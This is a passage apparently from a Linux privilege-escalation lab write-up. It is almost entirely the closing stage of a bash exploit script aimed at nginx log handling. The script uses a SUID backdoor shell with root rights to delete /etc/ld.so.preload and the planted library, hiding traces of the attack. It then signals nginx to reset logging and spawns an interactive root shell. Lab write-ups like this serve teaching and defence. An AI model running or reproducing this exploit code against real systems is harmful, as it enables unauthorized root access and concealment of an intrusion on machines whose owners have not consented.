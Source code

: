 ```bash
        cleanexit 2
fi

rm -f $ERRORLOG
echo > $ERRORLOG
 
# Use the rootshell to perform cleanup that requires root privilges
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
# Reset the logging to error.log
$BACKDOORPATH -p -c "kill -USR1 `pidof -s nginx`"

# Execute the rootshell
echo -e "\n[+] Spawning the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -i

# Job done.
```


![Sysmlink](/Images/linux_privesc_arena/symlink.png)
